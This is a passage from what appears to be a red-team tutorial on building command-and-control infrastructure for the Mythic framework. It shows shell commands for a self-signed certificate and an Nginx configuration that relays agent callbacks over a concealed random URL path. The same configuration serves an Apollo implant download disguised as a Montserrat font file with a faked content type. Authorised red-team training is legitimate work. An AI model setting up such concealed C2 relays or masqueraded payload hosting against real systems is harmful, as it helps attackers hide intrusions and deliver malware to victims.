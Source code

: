Restart the Nginx service:

```bash
sudo systemctl restart nginx
```


### Server 2 - The Whisperer

Typically, you would use a registered domain to obtain a trusted SSL certificate for Nginx. However, to keep things simple for this setup, we won’t be using a domain right now. Since no domains will be pointing to this server, we’ll create a self-signed SSL certificate to enable HTTPS.

Run the following commands to generate the self-signed certificate:

```bash
sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout /etc/ssl/private/nginx-selfsigned.key -out /etc/ssl/certs/nginx-selfsigned.crt

sudo openssl dhparam -out /etc/ssl/certs/dhparam.pem 2048
```

Next, we need to edit the Nginx configuration file on Server 2, where Mythic is running locally, to implement the rules we outlined earlier.

```bash
root@localhost:/etc/nginx/sites-available# cat mythic.conf
server {
    listen 8443 ssl; # Port that Server 1 forwards to Server 2
    server_name <PUBLIC IP OF SERVER 2>;

    # SSL Self Signed
    ssl_certificate /etc/ssl/certs/nginx-selfsigned.crt;
    ssl_certificate_key /etc/ssl/private/nginx-selfsigned.key;
    ssl_dhparam /etc/ssl/certs/dhparam.pem;

    # Mythic Agent callback with the random path used in Server 1
    location ~ ^/asdasdasdasdasdasdasd1231239asd90asd/?(.*)$ {
        # Forwards traffic to http profile that resides in Mythic
        proxy_pass https://127.0.0.1:443$request_uri;

        proxy_ssl_verify off;

        proxy_set_header Host 127.0.0.1;

        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;

        proxy_redirect / /asdasdasdasdasdasdasd1231239asd90asd/;
    }

    # Payload host
    location /assets/fonts/montserrat.ttf {
    	# Direct download of Apollo Agent available in Mythic Web Interface
        proxy_pass https://127.0.0.1:7443/direct/download/92ca6c6b-f9b2-4ab4-8114-dce0936f3a0c;

        proxy_ssl_verify off;
        proxy_set_header Host 127.0.0.1;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;

        proxy_hide_header Content-Disposition;
        add_header Content-Type "font/ttf";
        add_header Content-Disposition "attachment; filename=montserrat.ttf";
    }
```